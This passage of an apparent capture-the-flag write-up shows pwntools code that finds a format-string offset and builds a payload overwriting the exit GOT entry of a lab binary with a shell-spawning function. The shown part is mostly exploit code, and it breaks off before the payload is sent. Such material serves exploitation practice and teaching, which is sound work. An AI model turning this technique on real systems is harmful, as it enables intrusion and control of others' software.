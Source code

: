 ```python
    p.recvline()
    p.sendline(payload)
    sleep(0.1)
    p.recvline()
    p.recvline()
    p.recvline()
    r = p.recvline()
    p.close()
    return r


print(FmtStr(execute_fmt=calculate_offset).offset)

```

![](images/offset_automate.png)

Code sometimes doesn't work.(It works, just gets hung sometimes). Running script couple of times fixs the problem.

## Exploit goes brrr.

```Python
from pwn import *
from pwnlib.fmtstr import fmtstr_payload

context.terminal=['tmux', 'new-window']

elf = context.binary = ELF('./malicious', checksec=False)


gs = '''
b main
'''

GOT_EXIT = elf.got['exit']
binshell = elf.symbols['binshell']

#FOR DEBUGGING PROCESS
def start():
    return gdb.attach(elf.path, gdbscript=gs)


def get_payload():
	#4 is the offset that we calculated earlier
    payload = fmtstr_payload(4, {GOT_EXIT:binshell})
    return payload

p = process(elf.path)


log.info("exit_got @" + hex(GOT_EXIT))
log.info("bin @" + hex(binshell))


#interacting with the binary
```